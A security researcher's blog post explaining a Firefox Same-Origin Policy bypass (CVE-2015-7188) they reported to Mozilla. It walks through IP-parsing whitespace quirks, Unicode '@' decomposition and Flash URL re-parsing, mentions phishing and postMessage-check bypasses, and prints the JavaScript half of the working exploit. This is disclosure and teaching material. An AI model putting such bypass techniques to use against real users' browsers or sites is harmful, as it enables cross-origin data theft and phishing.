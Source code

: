 ```yaml
---
title: "Firefox - Same-Origin Policy bypass (CVE-2015-7188)"
date: "2016-07-05"
---
```


In this post I will explain the [Same-Origin policy bypass](https://www.mozilla.org/en-US/security/advisories/mfsa2015-122/) ([CVE-2015-7188](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-7188)) in Firefox I reported to Mozilla last year. The root cause of that issue was a minor nuance in IP address parsing in some of the most popular OS-es. The final working exploit, however, additionally needed Flash installed and activated on the victim's machine. Another limitation was that it only worked to http protocol. However, I think that this bug is interesting from a purely technical standpoint, hence I decided to share.

If  you don't know what Same-Origin Policy is, please refer to [the explanation in Wikipedia](https://en.wikipedia.org/wiki/Same-origin_policy). So let's start with the IP address parsing. At first, it may seem that you cannot say a lot about it because for most people the IP addresses are four numbers in range 0..255 separated by dots. And while that's true, there is a few different ways to express the same IP. For example: you may change some parts to octal, or hexadecimal, or you can join some parts, or omit some completely. For example, all the forms below express the same IP address: 216.58.209.68 (which belongs to www.google.com):

- 216.58.53572
- 0xD8.072.53572
- 3627733316
- 0330.3854660

I strongly recommend to watch [Nicolas Gregoire's presentation about SSRF](https://www.youtube.com/watch?v=8t5-A4ASTIU) in which he explains the technique in more detail. Anyway, during one of my tests I accidentally discovered that there's one other quirk in OS-es from BSD and Linux family. It turns out that you can append a whitespace character (0x09, 0x0a, 0x0b, 0x0c, 0x0d, 0x20) just after the proper numeric IP address and after that... you can append anything you want! So for example `127.0.0.1\x0Athat is weird` is perfectly fine IP address.

[![](https://2.bp.blogspot.com/-s0IY8Fxh8Tw/V3wMxijRKKI/AAAAAAAAAJE/0bYBwoYfNaUMIo1KU3fH9YRYGZPinuLoACK4B/s400/mb_%25E2%2580%2594_mb_ns3353159___%25E2%2580%2594_bash_%25E2%2580%2594_80%25C3%259721.png)](http://2.bp.blogspot.com/-s0IY8Fxh8Tw/V3wMxijRKKI/AAAAAAAAAJE/0bYBwoYfNaUMIo1KU3fH9YRYGZPinuLoACK4B/s1600/mb_%25E2%2580%2594_mb_ns3353159___%25E2%2580%2594_bash_%25E2%2580%2594_80%25C3%259721.png)

That's really weird but it actually works. So basically now we can have an arbitrary suffix in an IP address and it will still be correct.

### IP addresses in Firefox

So I became to wonder if it was possible to use the fact somehow in web browsers. This could definitely lead to some interesting vulnerabilities. And in fact - it did! Firefox accepted `\x0B` and `\x0C` whitespace characters just after the IP (later it turned out that Firefox uses its own internal IP parsing code on all platforms which, incidentally, was grabbed from the BSD). For example, if you entered the script: `location='http://37.187.18.85\x0Bwhatever_here'`, you were redirected to 37.187.18.85 (which is the bentkowski.info domain of mine).

[![](https://1.bp.blogspot.com/-mDLmE_56n2c/V3wOXa2lXoI/AAAAAAAAAJQ/8idvCed7fTgW8LievNn-aKdGwEf3eOQJACK4B/s400/Kali.png)](http://1.bp.blogspot.com/-mDLmE_56n2c/V3wOXa2lXoI/AAAAAAAAAJQ/8idvCed7fTgW8LievNn-aKdGwEf3eOQJACK4B/s1600/Kali.png)

`document.domain` and `location.origin` contained `\x0B` character unencoded, which, I believed at the time, could help in further exploitation. So what can we do here? At first I hoped that domain like `http://37.187.18.85\\x0B.test.google.com` would make Firefox send the global .google.com cookies to my domain. But no luck here; Firefox internally knew that the host name is still an IP address so it didn't send any cookies of Google. Anyway I could think of two methods to exploit the issue at this point. The first one was phishing attacks - the domain ending with ".google.com" might have seemed legit to some users. Hell, even the Firefox address bar highlighted the google.com part!

[![](https://4.bp.blogspot.com/-z5Ml4yXuVBU/V3wPfMkthuI/AAAAAAAAAJY/gQ95flRHDy4jGzdf7SsBPvnhNabgHkOiwCK4B/s400/Kali.png)](http://4.bp.blogspot.com/-z5Ml4yXuVBU/V3wPfMkthuI/AAAAAAAAAJY/gQ95flRHDy4jGzdf7SsBPvnhNabgHkOiwCK4B/s1600/Kali.png)

Another possible exploit was on some postMessage implementations. If any given implementation employed the code similar to: `if(origin.endsWith('.google.com')) ...` to check its origin, I could have easily bypass it.

But that still wasn't satisfactory to me, I rather expected some general exploit that wouldn't depend on someone's gullibility or some specific implementation of `postMessage`.

The next idea I had was to use the Unicode decomposition. Browsers protect from some kind of phishing attack by not allowing certain characters in domain names and changing them automatically to some other well-known characters. For example, let's have the character U+FF47 (FULLWIDTH LATIN SMALL LETTER G): "ｇ". It looks very similar to the ASCII letter "g" so domain [http://www.ｇ oogle.com/](http://www.google.com/) could be easily used to phishing. In real world, however, this can't be done because browser will redirect you to [http://www.google.com/](http://www.google.com/) anyway. The thing is that the decomposition happens not only to letters but also to some special characters, namely: @. U+FF20 ("＠") is an example of character that will be decomposed to @. So what happens if I try to go to domain `http://37.187.18.85\x0B\uFF20google.com`? Let's see.

[![](https://2.bp.blogspot.com/-kBuTcS0NZQc/V3wRX06AbcI/AAAAAAAAAJo/1AxBChlCnhw1IVtk5ZB15w7vuALKvYOewCK4B/s400/Kali.png)](http://2.bp.blogspot.com/-kBuTcS0NZQc/V3wRX06AbcI/AAAAAAAAAJo/1AxBChlCnhw1IVtk5ZB15w7vuALKvYOewCK4B/s1600/Kali.png)

Okay, I still couldn't get cookies from google.com or anything else but please notice in the screenshot that the favicon is set to the one of google.com. This meant that some part of code of Firefox was actually confused by the at-sign and assumed that it worked in google.com context. It was a pretty clear sign to me that I was going the right way :) I didn't show that in the screenshot but `document.domain` and `location.origin` actually contained "@" sign in its **decomposed** form.

The ultimate answer was Flash. For example, whenever you have a Flash applet hosted in google.com, you can issue any http request to google.com and read the response. And it turned out that it was it. When the flash was hosted from, say, `http://37.187.18.85\x0B\uFF20google.com`, then Firefox will internally store the address as `http://37.187.18.85\x0B@google.com` and when it'll pass the URL to Flash, Flash will parse it again and treat everything before the at-sign as username. So from Flash point of view, it works in `http://google.com`. Voila, that's the same origin policy bypass.

At ~[http://bentkowski.info/fx_sop_bypass/](http://bentkowski.info/fx_sop_bypass/)~ (dead link) you can find the final exploit along with the Flash file source code. The idea was pretty simple: user could enter the URL, from which JS extracted the hostname at attempted to load flash file from `"http://37.187.18.85\x0C\uFF20"+hostname`. Then Flash assumed it worked in a given hostname and the applet issued a GET request to given URL. The body of the response was then presented to the user. Here's the relevant JS code:

```javascript
function createRequest(url) {
  var a = document.createElement("a");
  a.href = url;
  var host = a.hostname;
  var embed = document.createElement("embed");
  var maliciousURL =
    "http://37.187.18.85\\x0c\\uff20" +
    host +
    "/fx_sop_bypass/FlashTest.swf?url=" +
    url;

  embed.setAttribute("allowscriptaccess", "always");
  embed.src = maliciousURL;
  document.body.appendChild(embed);
}

function getResponse(resp) {
  document.getElementById("status").textContent = "";
  document.getElementById("response").textContent = "";

  if (resp.status === "success") {
    console.log(resp);

    document.getElementById("response").textContent = resp.data.data;
  } else {
    document.getElementById("status").textContent =
      resp.data.type + ": " + resp.data.text;
  }
}
```

And a screenshot of working exploit:

[![](https://2.bp.blogspot.com/-hkOHIMh1ED0/V3wTa3B0R9I/AAAAAAAAAJ0/VvvjNAQEVvspRlyrtC28FOwN9iMfdqFxQCK4B/s400/Kali.png)](http://2.bp.blogspot.com/-hkOHIMh1ED0/V3wTa3B0R9I/AAAAAAAAAJ0/VvvjNAQEVvspRlyrtC28FOwN9iMfdqFxQCK4B/s1600/Kali.png)

### Summary

The Same-Origin Policy bypass in Firefox was possible thanks to a few quirks:

1.  In IP address you can append any suffix given there's a whitespace character after the IP,
2.  Browsers decompose some Unicode characters to prevent from phishing attacks. This could be used to insert "@" into the hostname.
3.  The URL address was passed to Flash, which treated "@" sign as separator between the authority part and hostname. Thanks to that, Flash assumed that it worked in different domain than it was actually loaded from.
4.  Using Flash ability to issue requests to its apparent origin, you could actually bypass the same-origin policy in Firefox.
